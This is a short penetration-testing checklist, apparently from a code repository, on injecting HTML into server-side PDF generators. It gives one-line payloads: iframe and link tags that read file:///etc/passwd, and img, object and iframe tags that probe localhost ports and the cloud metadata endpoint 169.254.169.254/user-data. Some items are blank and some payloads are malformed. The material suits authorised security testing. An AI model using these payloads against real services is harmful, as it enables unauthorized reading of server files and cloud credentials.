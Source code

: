 # PDF Generation issues

If we could inject an HTML tag to the conversion process, in some libraries, we can download almost any file from the web server. For this attack vector, we should use these tags:

## LFI

- [ ] Test iframe tags for LFI: `<iframe src="file:///etc/passwd" height=1000 width=1000/>`
  - https://medium.com/@inonst/export-injection-2eebc4f17117
  - https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo
- [ ] Test object tags for LFI: 
- [ ] Test fonts (CSS) tags for LFI: 
- [ ] Test <link> for LFI. Create an html on an attacker controlled box with the following link tag: `<link rel=attachment href=”file:///etc/passwd”>` (need to unpack the PDF)


## SSRF

- [ ] Test iframe tags for SSRF: `<img src=”http://127.0.0.1:445”/>` (check response time to determine open/closed ports)
- [ ] Test object tags for SSRF: `<object data=”http://127.0.0.1:8443”/>`
- [ ] Test fonts (CSS) tags for SSRF: `<style><iframe src=”http://169.254.169.254/user-data”>`
- [ ] This could also happen when pictures are generated with html.
  - https://hackerone.com/reports/816848
